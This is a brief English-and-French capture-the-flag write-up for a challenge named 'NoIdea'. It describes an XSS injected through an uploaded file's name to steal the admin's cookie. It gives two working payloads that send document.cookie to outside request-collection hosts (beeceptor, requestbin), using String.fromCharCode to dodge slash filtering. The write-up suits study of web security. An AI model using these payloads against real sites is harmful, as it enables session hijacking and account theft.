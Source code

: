 # NoIdea Chall WU

## English

File upload with an injection in the name of the file to get an XSS. The XSS injection gives you a way to get the admin's cookies (flag).

Payloads :
- ``<img src=y onerror=window.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'<endpoint>.free.beeceptor.com?a='+document.cookie>.txt``
- ``<img src=y onerror=(document.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'requestbin.io'+String.fromCharCode(47)+'<endpoint>?'+document.cookie)>``

Little trool : you got rickrolled when you are using a source with the image "x".

## Français

Upload d'un fichier avec une injection dans son nom pour réaliser une XSS. L'injection XSS va nous permettre de récupérer les cookies de l'administrateur (flag).

Payloads :
- ``<img src=y onerror=window.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'<endpoint>.free.beeceptor.com?a='+document.cookie>.txt``
- ``<img src=y onerror=(document.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'requestbin.io'+String.fromCharCode(47)+'<endpoint>?'+document.cookie)>``

Petit troll : si src=x, renvoie vers un gif de rick roll.
